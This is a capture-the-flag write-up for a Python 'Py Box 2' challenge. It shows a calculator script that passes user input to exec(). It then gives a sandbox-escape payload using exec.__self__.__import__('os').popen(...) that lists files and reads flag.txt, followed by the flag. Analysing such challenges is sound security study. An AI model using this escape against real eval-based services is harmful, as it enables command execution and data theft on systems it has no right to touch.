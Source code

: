 # Py Box 2
> Write-up author: vreshco
## DESCRIPTION:
ehh parah! kemarin programku di hek orang, yaudah ta kasih beberapa restriksi semoga ga kena hek lagi wkwkwkwk.
## HINT:
1. exec.__self__ or compile.__self__
## STEPS:
1. Given a machine host to run via netcat and an python script.
2. Let's try to analyze the python script first.

> SCRIPT GIVEN

```py
__builtins__ = {
    "compile": compile,
    "exec": exec,
}

BLACK_LIST = []


def calculator(txt: str):
    txt = txt.replace("=", "")
    container = {}
    comp = compile(f"result={txt}", "<string>", "exec")
    exec(comp, container)
    return container.get('result')


def check(text):
    if any([i for i in BLACK_LIST if i in text]):
        return False
    return True


with open("logo", 'r') as f:
    print(f.read())

print("aplikasi aritmatika by H3X0S1337")
print("operasi yang bisa digunakan: ")
print("- perkalian '*'")
print("- pembagian '/'")
print("- pertambahan '+'")
print("- pengurangan '-'")
print("- xor '^'")
print("- modulus '%'")
print("- pangkat '**'")
print("- pembagian lantai '//'")
print("contoh pemakaian:")
print("- 1+1 maka akan menghasilkan 2")
while True:
    try:
        user_input = input("masukkan input: ")
        calc = calculator(user_input)
        print(calc)
    except KeyboardInterrupt:
        break

```

3. Based on the script, we know the vuln is at the `exec()`. It uses it to execute arbitrary code entered by the user as a string.
4. This can potentially lead to arbitrary code execution and other security issues.
5. The `calculator()` function takes the user input as a string, then compiles it using `compile()` and executes it using `exec()` to evaluate the expression and obtain the result.
6. This apparoach can be dangerous if the user input contains malicious code or exploits.
7. Based from the hint, to utilize this vuln we can use either **exec.__self__** or **compile.__self__**.
8. For this solution i'm gonna use **exec.__self__**, let's try to list the files or directories inside it.

> COMMAND

```
exec.__self__.__import__("os").popen("ls").read()
```

> RESULT

![image](https://user-images.githubusercontent.com/70703371/227161893-4f647142-ec76-43da-a0a3-2aef0450b6c6.png)


9. Great it works! Since there's flag.txt, let's cat that out.

> COMMAND

```
exec.__self__.__import__("os").popen("cat flag.txt").read()
```

> RESULT

![image](https://user-images.githubusercontent.com/70703371/227162279-c3ff73c1-34d3-4ef2-bd09-c0310cb9658e.png)


10. Got the flag!

## FLAG

```
TCP1P{using_another_functon__self__to_get__import__}
```
